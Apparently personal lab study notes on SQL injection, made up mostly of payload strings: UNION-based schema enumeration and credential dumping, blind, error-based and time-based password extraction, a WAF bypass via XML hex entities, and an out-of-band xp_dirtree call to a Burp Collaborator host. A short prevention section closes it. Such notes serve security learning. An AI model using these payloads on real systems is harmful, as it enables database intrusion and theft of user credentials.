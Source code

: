 # SQL injection

basicaly a vulnerabily where you have an input value
that you can manipulate
and is insecurely send to the sql database
thus giving us access more access then we should have


## note
sometimes a + needs to be used in stead of spaces

## payloads explained

simplest is:
test' OR 1=1 --

this completes the query with test
but then closes it
add the OR operator
1=1 making any query correct
-- commenting out the rest of the line

sometimes payloads dont just work,
fe in the url they sometimes could need to be url encoded to work

## union selects

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
using this we can determine if there can be selected more collums

after determining the collumns
we can use the following to search for a particular string
' UNION SELECT 'searchstring',NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
' UNION SELECT NULL,NULL,'searchstring'--

union abuse is using union statement
to merge another table
' UNION SELECT user,password FROM users--

if there arent enough collumns
you could concatenate another collumns
' UNION SELECT username || '~' || password FROM users--
|| '~' || this is a seperator in an oracle database

## gathering extra info
using builtin stuff,
combining with for example a UNION

Database type           Query
Microsoft, MySQL        SELECT @@version
Oracle                  SELECT * FROM v$version
PostgreSQL              SELECT version()

## schema
most databases have a table with the schema
this is a table containing info of the tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

first gathering the collumns
' ORDER BY 2--

then gather the tables
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

then gathering the columns of the table
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'foundtablename'--
or if being uncertain this reveals all collumns with table name to search in
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--

after finding the collumn names we can use these and the specific table to gather info we need to know
' UNION SELECT columnname1,columnname2 FROM tablename--

## blind injection
is more difficult,
it does not directly show the content of the query
but it changes a response fe showing a welcome message

fe
xyz' AND '1'='1
xyz' AND '1'='2
the first would show the welcome message
but the second would not bcs it would be false

after determining the difference you'd need to check the password 1by1
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
if its true the first character fo the password is greater than m
thus trying the next its half we can narrow down the correct password
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

abcdefghijklmnopqrstuvwxyz0123456789

ofc its tedious to do this for longer passwords
thus using chatgpt you can write a quick "bruteforcer"
see "script/sql_blind.py"

## error based
even harder

like the blind injection
we get another output in the errors
thus making it throw a different error based on if anything is true or false

first testing
'
gives an error
showing us we get a syntax error
''
shows its fixed showing no error

givesn another error
'||(SELECT '')||'

fixes the error
'||(SELECT '' FROM dual)||'

trying a nonexistant table gives an error
'||(SELECT '' FROM tryingannonexistanttable)||'

trying to get some users
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'


when recieving an error we get the error
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

if we find a user we can determine the password length
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

then checking the char at each location
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

ofc this will take to long to do
thus we write ask gpt to ask make a script
see "script/sql_error.py"


verbose erroring
sometimes a usefull error is returned like syntax error ' on line...
trying with a cast we could maybe get useful data out oof it
CAST((SELECT example_column FROM example_table) AS int)

'
this gave an error
'--
fixed the error
' AND CAST((SELECT 1) AS int)--
another error
' AND 1=CAST((SELECT 1) AS int)--
fixed the previous error
now inserting our generic select
' AND 1=CAST((SELECT username FROM users) AS int)--
we got an error that showed our query being cut of so removing the part of the original cookie fixed this
' AND 1=CAST((SELECT username FROM users) AS int)--
errorr says to much rows
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
errorr now says the first username
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
and just changing to get the password retrieves us the credentials

## time based sql
basicaly the sql executes but doesnt return anything different
but we could try to insert a delay based on if something is true
as the webapps are executed synchronously we could manipulate this
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
'%3BSELECT+CASE+WHEN+(YOUR-CONDITION-HERE)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

first testing the different responses
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
then getting a username from a table
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
then getting its password length
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>50)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
and then getting bruteforcing the password
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

ofc this is tedious and we let our buddy gpt
write a script for it "script/sql_timed.py"

## out-of-band (OAST) technique
if a different thread is used to execute the query
then we could try to get info by performing a network query to a server we control

most time dns could be used to extract data bcs dns most times doesnt get blocked bcs its essential for normal operations
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

sometimes not only a string is used
but it could be hidden in xml or json

fe xml
1+1
1 UNION SELECT username || '~' || password FROM users
got us detected by a waf
<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
abusing a feature of xml
gets us bypassing it

## stored sql
is saving the sql input somewhere for later use
then later gets abused

## how to prevent
use prepared statements,
parameter based querys,
instead of string concatenations,
prohibit a list of words that can exist in fields


## payloads

stored in the root folder: payloads_sql.lst

https://portswigger.net/web-security/sql-injection/cheat-sheet
